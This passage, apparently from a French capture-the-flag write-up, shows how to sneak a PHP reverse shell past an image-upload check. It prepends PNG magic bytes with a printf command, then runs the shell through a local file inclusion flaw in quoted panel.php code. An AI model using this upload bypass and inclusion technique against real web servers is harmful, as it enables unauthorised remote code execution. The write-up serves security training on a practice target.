 La tentative d'upload du fichier [```php-rshell.php```](tools/php-rshell.php), tel quel, renvoie l'erreur _only png,jpg and gif file are allowed_. Si l'on modifie l'extension du fichier et que l'on uploade ```php-rshell.png``` sans en changer son contenu, la première condition ```if(in_array($r,$image))``` est satisfaite mais le message d'erreur est différent : _i told you dear, only png,jpg and gif file are allowed_.

La deuxième condition consiste en une vérification du [type MIME](https://fr.wikipedia.org/wiki/Type_de_m%C3%A9dias) du fichier. La requête transmise au serveur contient bien le bon ```Content-Type: image/png``` donc il s'agira là de modifier le [_magic number_](https://en.wikipedia.org/wiki/List_of_file_signatures) du fichier afin de le faire passer pour une image JPG ou PNG.

```console
root@blinils:~# file php-rshell.png 
php-reverse-shell.png: PHP script, ASCII text, with CRLF line terminators

root@blinils:~# printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52" | cat - php-rshell.png > rshell.png

root@blinils:~# file rshell.png 
rshell.png: PNG image data, 1010790504 x 1879902767, 47-bit
```

L'upload a réussi cette fois-ci, et notre _reverse shell_ a bien été téléversé dans le répertoire ```/uploaded_images```. Il ne reste plus qu'à l'appeler grâce à la portion de code ci-après de ```panel.php```.

```console
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

Si le paramètre ```continue``` est transmis au serveur, alors le fichier fourni dans le paramètre ```load``` sera inclus dans la page. Ces deux paramètres doivent être appelés dans une requête POST à la page ```panel.php```, après s'être authentifié et donc avec le cookie de session approprié. À noter que le chemin est construit avec la variable ```$dir``` et non ```choice``` ce qui signifie que la fonction ```str_replace``` utilisée n'a aucun effet sur notre paramètre ```load``` !
